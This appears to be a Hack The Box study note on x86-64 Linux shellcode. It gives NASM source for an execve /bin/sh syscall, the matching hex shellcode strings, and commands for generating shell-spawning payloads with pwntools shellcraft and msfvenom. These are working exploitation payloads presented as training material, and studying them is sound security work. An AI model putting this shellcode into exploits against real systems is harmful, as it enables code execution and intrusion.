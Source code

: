 ```nasm
    mov rdi, '/bin//sh' ; first arg to /bin/sh
    push rdi            ; push to stack 
    mov rdi, rsp        ; move pointer to ['/bin//sh']
    push rdx            ; push NULL string terminator
    push rdi            ; push second arg to ['/bin//sh']
    mov rsi, rsp        ; pointer to args
    syscall
```
print
```bash
la1n23@htb[/htb]$ python3 shellcoder.py sh

b03b4831d25248bf2f62696e2f2f7368574889e752574889e60f05
27 bytes - No NULL bytes
```
## Shellcraft
Tool for creating shellcode for different syscalls
```bash
la1n23@htb[/htb]$ pwn shellcraft -l 'amd64.linux'

...SNIP...
amd64.linux.sh

la1n23@htb[/htb]$ pwn shellcraft amd64.linux.sh

6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05

la1n23@htb[/htb]$ pwn shellcraft amd64.linux.sh

$

# custom syscall arguments
la1n23@htb[/htb]$ python3

>>> from pwn import *
>>> context(os="linux", arch="amd64", log_level="error")
>>> dir(shellcraft)

[...SNIP... 'execve', 'exit', 'exit_group', ... SNIP...]

>>> syscall = shellcraft.execve(path='/bin/sh',argv=['/bin/sh']) # syscall and args
>>> asm(syscall).hex() # print shellcode

'48b801010101010101015048b82e63686f2e726901483104244889e748b801010101010101015048b82e63686f2e7269014831042431f6566a085e4801e6564889e631d26a3b580f05'
```
## [[metasploit]] msfvenom
```bash
la1n23@htb[/htb]$ msfvenom -l payloads | grep 'linux/x64'

linux/x64/exec                                      Execute an arbitrary command
...SNIP...

la1n23@htb[/htb]$ msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex'

No encoder specified, outputting raw payload
Payload size: 48 bytes
Final size of hex file: 96 bytes
6a3b589948bb2f62696e2f736800534889e7682d6300004889e652e80300000073680056574889e60f05
```
### encoding